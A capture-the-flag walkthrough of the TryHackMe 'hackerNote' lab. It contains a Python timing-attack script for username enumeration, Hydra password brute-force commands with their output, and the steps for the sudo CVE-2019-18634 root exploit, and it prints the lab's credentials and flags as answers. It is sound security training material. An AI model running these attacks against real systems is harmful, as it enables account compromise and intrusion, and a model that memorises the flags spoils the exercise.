


# hackerNote

A custom webapp, introducing username enumeration, custom wordlists and a basic privilege escalation exploit.

# [Task 1] Reconnaissance

You're presented with a machine. Your first step should be recon. Scan the machine with nmap, work out what's running.

## #1.1 - Which ports are open? (in numerical order)

Nmap discovers 3 open ports:

~~~
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 10:a6:95:34:62:b0:56:2a:38:15:77:58:f4:f3:6c:ac (RSA)
|   256 6f:18:27:a4:e7:21:9d:4e:6d:55:b3:ac:c5:2d:d5:d3 (ECDSA)
|_  256 2d:c3:1b:58:4d:c3:5d:8e:6a:f6:37:9d:ca:ad:20:7c (ED25519)
80/tcp   open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Home - hackerNote
8080/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Home - hackerNote
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
~~~

Answer: `22,80,8080`

## #1.2 - What programming language is the backend written in?

*Hint: Use nmap -sV to fingerprint the service version.*

Nmap identifies that the services running on ports `80` and `8080` are hosting a `Goland` server. The language is `go`.

Answer: `go`

# [Task 2] Investigate

Now that you know what's running, you need to investigate. With webapps, the normal process is to click around. Create an account, use the web app as a user would and play close attention to details.

## #2.1 - Create your own user account

Connect to http://10.10.156.130/ and click on the "Login" button on the right hand side. From here, you'll have access to the login form, as well as the account creation form. Let's use the second form to create an account.

## #2.2 - Log in to your account

Now, let's use the 1st form to login with our newly created account. Once logged in, we are redirected to http://10.10.156.130/notes/ where our "notes" are displayed (none existing so far).

## #2.3 - Try and log in to an invalid user account

Use the "Logout" button on the right hand side to log out. Click on the "Login" button once again, and try to authenticate with a non-existing account. The following error message appears: `Invalid Username Or Password` immediately.

## #2.4 - Try and log in to your account, with an incorrect password.

When trying to login with an existing account with an incorrect password shows the same message: `Invalid Username Or Password`. However, there is a subtle difference as compared to the previous test (when the account does not exist). This time, the message appears after 2 seconds or so.

## #2.5 - Notice the timing difference. This allows user enumeration

We have explained previously the timing difference between the 2 tests. This is something we can probably exploit to enumerate existing accounts.

# [Task 3] Exploit 

**Use the timing attack**

Now that we know there's a timing attack, we can write a python script to exploit it.

The first step is working out how login requests work. You can use Burpsuite for this, but I prefer to use Firefox dev tools as I don't have to configure any proxies.

Here we can see the login is a POST request to /api/user/login. This means we can make this request using CURL, python or another programming language of your choice.



In python, we can use this code and the Requests library to send this request as follows:

```python
creds = {"username":username,"password":"invalidPassword!"}
response = r.post(URL,json=creds)
```

The next stage is timing this. Using the "time" standard library, we can work out the time difference between when we send the request and when we get a response. I've moved the login request into it's own function called doLogin.

```python
startTime = time.time()
doLogin(user)
endTime = time.time()
```

The next step is now to repeat this for all usernames in the username list. This can be done with a series of for loops. The first will read usernames from a file into a list, and the second will test each of these usernames and see the time taken to respond. For my exploit, I decided that times within 10% of the largest time were likely to be valid usernames.

**Why does the time taken change?**

The backend is intentionally poorly written. The server will only try to verify the password of the user if it receives a correct username. The psuedocode to explain this better is below.

```python
def login(username, password):
    if username in users: ##If it's a valid username
        login_status = check_password(password) ##This takes a noticeable amount of time
        if login_status:
            return new_session_token()
        else:
            return "Username or password incorrect"
    else:
        return "Username or password incorrect"
```

Pre-written exploits in Golang and Python are available here: https://github.com/NinjaJc01/hackerNoteExploits

Use the Honeypot capture or Names/names.txt from https://github.com/danielmiessler/SecLists/tree/master/Usernames. The shorter the list is, the faster the exploit will complete. (Hint: one of those wordlists is shorter.)

**NOTE**: The Golang exploit is not reliable but it is faster. If you get invalid usernames, try re-running it after a minute or switching to the python exploit.

## #3.1 - Try to write a script to perform a timing attack.

*Hint: If you get stuck, re-read the section on using the timing attack or use an exploit from https://github.com/NinjaJc01/hackerNoteExploits*

Using the Firefox developer bar, I made some tests to measure the timing differences, and collected the following values for valid and invalid accounts:

* Invalid accounts: 64ms, 75ms, 86ms
* Valid accounts: 1.54ms, 1.50ms, 1.53ms

Let's set the threshold at 1 second. Based on this fact, let's write a basic brute forcer in python (it is absolutely not optimized, we may use multi-thread):

```python
#!/usr/bin/env python3
import sys
import requests
import time

def main():
	host = '10.10.156.130'

	with open(sys.argv[1]) as f:
	    usernames = f.readlines()
	usernames = [x.strip() for x in usernames] 

	for username in usernames:
		start = time.time()
		creds = {"username":username,"password":"notimportant"}
		r = requests.post("http://{}/api/user/login".format(host), data=creds)
		done = time.time()
		elapsed = done - start
		if elapsed > 1:
			print("[*] Valid user found: {}".format(username))

if __name__ == '__main__':
	if len(sys.argv) < 2:
		print("Usage: {} /path/usernames/file.txt".format(sys.argv[0]))
		sys.exit(1) 
	main()
```

Let's run the script:

~~~
$ ./bruteforce-user.py /data/src/SecLists/Usernames/Honeypot-Captures/multiplesources-users-fabian-fingerle.de.txt 
~~~

## #3.2 - How many usernames from the list are valid?

*Hint: If you get this wrong, try testing the usernames manually and seeing how quickly they return. If it's more or less instant, they're not valid.*

Answer: `1`

## #3.3 - What are/is the valid username(s)?

A valid username is `james`

# [Task 4] Attack Passwords

**Next Step**


Now that we have a username, we need a password. Because the passwords are hashed with bcrypt and take a noticeable time to verify, bruteforcing with a large wordlist like rockyou is not feasible.
Fortunately, this webapp has password hints!

With the username that we found in the last step, we can retrieve the password hint. From this password hint, we can create a wordlist and (more) efficiently bruteforce the user's password.

**Create your wordlist**

The password hint is "my favourite colour and my favourite number", so we can get a wordlist of colours and a wordlist of digits and combine them using Hashcat Util's Combinator which will give us every combination of the two wordlists. Using this wordlist, we can then use Hydra to attack the login API route and find the password for the user. Download the attached wordlist files, look at them then combine them using hashcat-util's combinator.
Hashcat utils can be downloaded from: https://github.com/hashcat/hashcat-utils/releases
Either add these to your PATH, or run them from the folder.
We want to use the Combinator.bin binary, with colors.txt and numbers.txt as the input. The command for this is (assuming you're in the directory with the binaries and have copiesd the txt files into that directory):

~~~
./combinator.bin colors.txt numbers.txt > wordlist.txt
~~~

This will then give you a wordlist to use for Hydra.

**Attack the API**

The HTTP POST request that we captured earlier tells us enough about the API that we can use Hydra to attack it.
The API is actually designed to either accept Form data, or JSON data. The frontend sends JSON data as a POST request, so we will use this. Hydra allows attacking HTTP POST requests, with the HTTP-POST module. To use this, we need:

* Request Body - JSON: `{"username":"admin","password":"admin"}`
* Request Path: `/api/user/login`
* Error message for incorrect logins: `Invalid Username Or Password`

The command for this is (replace the parts with angle brackets, you will need to escape special characters):

~~~
hydra -l <username> -P <wordlist> 192.168.2.62 http-post-form <path>:<body>:<fail_message>
~~~

## #4.1 - Form the hydra command to attack the login API route

*Hint: If you're struggling with JSON, the API route also accepts form data, which is easier to use with Hydra.*

Let's build our hydra command:

~~~
hydra -l james -P wordlist.txt 10.10.156.130 http-post-form "/api/user/login:username=^USER^&password=^PASS^:Invalid Username Or Password"
~~~

## #4.2 - How many passwords were in your wordlist?

*Hint: wc, look for number of lines*

Now, let's use combinator to build our passwords list.

~~~
$ ./combinator.bin colors.txt numbers.txt > wordlist.txt
$ wc -l wordlist.txt 
180 wordlist.txt
~~~

Answer: `180`

## #4.3 - What was the user's password?

Let's run our attack:

~~~
$ hydra -l james -P wordlist.txt 10.10.156.130 http-post-form "/api/user/login:username=^USER^&password=^PASS^:Invalid Username Or Password"
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-06-17 11:50:20
[DATA] max 16 tasks per 1 server, overall 16 tasks, 180 login tries (l:1/p:180), ~12 tries per task
[DATA] attacking http-post-form://10.10.156.130:80/api/user/login:username=^USER^&password=^PASS^:Invalid Username Or Password
[STATUS] 48.00 tries/min, 48 tries in 00:01h, 132 to do in 00:03h, 16 active
[80][http-post-form] host: 10.10.156.130   login: james   password: blue7
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-06-17 11:51:39
~~~

A valid password has been found: `blue7`

## #4.4 - Login as the user to the platform

Let's login as `james:blue7`. We are redirected to James' notes where James' SSH password is disclosed:



## #4.5 - What's the user's SSH password?

Answer: `dak4ddb37b`

## #4.6 - Log in as the user to SSH with the credentials you have.

Now, let's connect to SSH with `james:dak4ddb37b`

## #4.7 - What's the user flag?

~~~
$ ssh james@10.10.156.130
james@10.10.156.130's password: 
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-76-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed Jun 17 09:55:51 UTC 2020

  System load:  0.01              Processes:           86
  Usage of /:   49.2% of 9.78GB   Users logged in:     0
  Memory usage: 8%                IP address for eth0: 10.10.156.130
  Swap usage:   0%


59 packages can be updated.
0 updates are security updates.


Last login: Mon Feb 10 11:58:27 2020 from 10.0.2.2
james@hackernote:~$ ls -l
total 4
-rw------- 1 james james 38 Feb  8 22:30 user.txt
james@hackernote:~$ cat user.txt 
thm{56911bd7ba1371a3221478aa5c094d68}
~~~

Answer: `thm{56911bd7ba1371a3221478aa5c094d68}`

# [Task 5] Escalate

**Enumeration of privileges**

Now that you have an SSH session, you can grab the user flag. But that shouldn't be enough for you, you need root.
A good first step for privilege escalation is seeing if you can run sudo. You have the password for the current user, so you can run the command:

~~~
sudo -l
~~~

This command tells you what commands you can run as the superuser with sudo. Unfortunately, the current user cannot run any commands as root. You may have noticed, however, that when you enter your password you see asterisks. This is not default behaviour. There was a recent CVE released that affects this configuration. The setting is called pwdfeedback.

## #5.1 - What is the CVE number for the exploit?

*Hint: All caps, from 2019.*

When we try to check our privileges with `sudo -l`, we notice asterisk when we enter our password:

~~~
james@hackernote:~$ sudo -l
[sudo] password for james: **********
Sorry, user james may not run sudo on hackernote.
~~~

We can take advantage of a vulnerability: `CVE-2019-18634`

## #5.2 - Find the exploit from https://github.com/saleemrashid/ and download the files.

*Hint: Git clone, or download as zip and extract.*

You can find several exploits on the Internet. Let's take this one: https://github.com/saleemrashid/sudo-cve-2019-18634.

Let's compile it (if you have the `/usr/bin/ld: cannot find -lc` error, install `glibc-static`) and transfer it:

~~~
$ git clone https://github.com/saleemrashid/sudo-cve-2019-18634.git
$ cd sudo-cve-2019-18634/
$ make
$ scp exploit james@10.10.211.209:
~~~

## #5.3 - Compile the exploit from Kali linux.

*Hint: cd into the folder and run `make`*

See above.

## #5.4 - SCP the exploit binary to the box.

See above

## #5.5 - Run the exploit, get root.

Let's run the exploit.

~~~
james@hackernote:~$ ./exploit 
[sudo] password for james: 
Sorry, try again.
# whoami
root
~~~

## #5.6 - What is the root flag?

~~~
# ls -l /root
total 4
-rw------- 1 root root 38 Feb  8 22:31 root.txt
# cat /root/root.txt
thm{af55ada6c2445446eb0606b5a2d3a4d2}
~~~

Answer: `thm{af55ada6c2445446eb0606b5a2d3a4d2}`

# [Task 6] Comments on realism and Further Reading

**Web app**

This room was designed to be more realistic and less CTF focused. The logic behind the timing attack is mentioned in OWASP's authentication section, and a fairly similar timing attack existed on OpenSSH, allowing username enumeration. I've included links to this in the Further Reading section

Password hints in webapps are normally considered bad practice, but large companies still often include them. Adobe suffered a large databreach affecting users of Creative Cloud and decryption of the passwords was made much easier due to the password hints also included in the breach.

**Privilege Escalation**

The privilege escalation for this box is a real world CVE vulnerability, and affected the default configurations of sudo on macOS, Linux Mint and ElementaryOS.

**Further reading**

Timing attacks on logins:
* https://seclists.org/fulldisclosure/2016/Jul/51
* https://www.gnucitizen.org/blog/username-enumeration-vulnerabilities/
* https://wiki.owasp.org/index.php/Testing_for_User_Enumeration_and_Guessable_User_Account_(OWASP-AT-002)

Adobe Password Breach
* https://nakedsecurity.sophos.com/2013/11/04/anatomy-of-a-password-disaster-adobes-giant-sized-cryptographic-blunder/

Sudo CVE
* https://dylankatz.com/Analysis-of-CVE-2019-18634/
* https://nvd.nist.gov/vuln/detail/CVE-2019-18634
* https://tryhackme.com/room/sudovulnsbof
